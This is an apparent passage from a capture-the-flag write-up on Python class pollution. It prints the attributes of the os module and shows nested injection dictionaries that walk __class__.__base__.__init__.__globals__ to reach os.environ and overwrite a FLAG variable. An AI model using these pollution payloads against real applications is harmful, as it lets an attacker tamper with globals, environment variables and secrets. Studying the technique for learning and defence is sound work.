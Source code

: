```python
```
Output:
```
['DirEntry', 'EX_OK', 'F_OK', 'GenericAlias', 'Mapping', 'MutableMapping', 'O_APPEND', 'O_BINARY', 'O_CREAT', 'O_EXCL', 'O_NOINHERIT', 'O_RANDOM', 'O_RDONLY', 'O_RDWR', 'O_SEQUENTIAL', 'O_SHORT_LIVED', 'O_TEMPORARY', 'O_TEXT', 'O_TRUNC', 'O_WRONLY', 'P_DETACH', 'P_NOWAIT', 'P_NOWAITO', 'P_OVERLAY', 'P_WAIT', 'PathLike', 'R_OK', 'SEEK_CUR', 'SEEK_END', 'SEEK_SET', 'TMP_MAX', 'W_OK', 'X_OK', '_AddedDllDirectory', '_Environ', '__all__', '__builtins__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', '_check_methods', '_execvpe', '_exists', '_exit', '_fspath', '_get_exports_list', '_wrap_close', 'abc', 'abort', 'access', 'add_dll_directory', 'altsep', 'chdir', 'chmod', 'close', 'closerange', 'cpu_count', 'curdir', 'defpath', 'device_encoding', 'devnull', 'dup', 'dup2', 'environ', 'error', 'execl', 'execle', 'execlp', 'execlpe', 'execv', 'execve', 'execvp', 'execvpe', 'extsep', 'fdopen', 'fsdecode', 'fsencode', 'fspath', 'fstat', 'fsync', 'ftruncate', 'get_blocking', 'get_exec_path', 'get_handle_inheritable', 'get_inheritable', 'get_terminal_size', 'getcwd', 'getcwdb', 'getenv', 'getlogin', 'getpid', 'getppid', 'isatty', 'kill', 'linesep', 'link', 'listdir', 'listdrives', 'listmounts', 'listvolumes', 'lseek', 'lstat', 'makedirs', 'mkdir', 'name', 'open', 'pardir', 'path', 'pathsep', 'pipe', 'popen', 'putenv', 'read', 'readlink', 'remove', 'removedirs', 'rename', 'renames', 'replace', 'rmdir', 'scandir', 'sep', 'set_blocking', 'set_handle_inheritable', 'set_inheritable', 'spawnl', 'spawnle', 'spawnv', 'spawnve', 'st', 'startfile', 'stat', 'stat_result', 'statvfs_result', 'strerror', 'supports_bytes_environ', 'supports_dir_fd', 'supports_effective_ids', 'supports_fd', 'supports_follow_symlinks', 'symlink', 'sys', 'system', 'terminal_size', 'times', 'times_result', 'truncate', 'umask', 'uname_result', 'unlink', 'unsetenv', 'urandom', 'utime', 'waitpid', 'waitstatus_to_exitcode', 'walk', 'write']
```

15. To access the `environ` dictionary in `os`,
```python
injection = {
    'target2' : 'TEMPORARY POLLUTION #2',
    'target3' : 'TEMPORARY POLLUTION #3',
    '__class__' : {
        '__base__' : {
            'target1' : 'PERMANENT POLLUTION #1',
            '__qualname__' : 'CLASS NAME POLLUTION',
            '__init__' : {
                '__globals__' : {
                    'os' : {
                        'environ' : {

                        }
                    }
                }
            }
        }
    }
} 
```
- I will not show the output of `print(abc.__class__.__base__.__init__.__globals__.get('os').environ)` because it contains some sensitive information.

16. To access the flag, we will use `os.environ['FLAG'] = 'POLLUTED!'`. This is equivalent to:
```python
injection = {
    'target2' : 'TEMPORARY POLLUTION #2',
    'target3' : 'TEMPORARY POLLUTION #3',
    '__class__' : {
        '__base__' : {
            'target1' : 'PERMANENT POLLUTION #1',
            '__qualname__' : 'CLASS NAME POLLUTION',
            '__init__' : {
                '__globals__' : {
                    'os' : {
                        'environ' : {
                            'FLAG' : 'POLLUTED! HOORAY!'
                        }
```